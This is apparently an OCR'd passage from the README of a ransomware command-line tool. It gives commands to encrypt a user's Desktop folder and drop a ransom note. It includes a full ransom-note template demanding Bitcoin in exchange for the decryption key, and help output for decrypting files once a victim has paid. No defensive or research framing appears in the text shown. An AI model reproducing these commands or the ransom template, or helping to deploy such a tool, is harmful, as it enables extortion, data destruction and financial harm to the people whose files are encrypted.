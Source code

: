 ```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --extBlacklist .csv,.pdf
```

Encrypt everything and add a ransom file

```bash
ransomware encrypt --publicKey ./pub.pem --path ~/Desktop --addRansom --ransomTemplatePath ./ransom/IMPORTANT.txt
```

### Ransom file

This is an example of ransom file. The templated strings `{{.BitcoinAddress}}`, `{{.BitcoinCount}}` and `{{.PubliKey}}` will be replace by the script. Please check encrypt options to see options available

```txt
!!! IMPORTANT !!!

All of your files are encrypted with RSA 4096 and AES 256 ciphers.
More information about RSA and AES can be found here:
- https://en.wikipedia.org/wiki/RSA_(cryptosystem)
- https://en.wikipedia.org/wiki/Advanced_Encryption_Standard

Decrypting of your files is only possible with the private key and decrypt program, which is not available to you.
To receive your private key please send {{.BitcoinCount}}BTC to {{.BitcoinAddress}} together with the public key used to encrypt your files

The public key to use in the form is

{{.PublicKey}}
```

## Decrypt a directory

With this command you can decrypt a folder back to its original form after a victim payed the ransom

```bash
NAME:
   ransomware decrypt - Decrypts a directory

USAGE:
   ransomware decrypt [command options] [arguments...]

OPTIONS:
   --path value, -c value  Runs the tool on a directory
   --privateKey value      Loads the provided RSA private key in PEM format
   --dryRun                decrypts files without deleting encrypted versions (default: false)
   --encSuffix value       defines the suffix to add to encrypted files (default: ".enc")
   --ransomFileName value  defines the name of the ransom file name (default: "IMPORTANT.txt")
   --help, -h              show help (default: false)
```
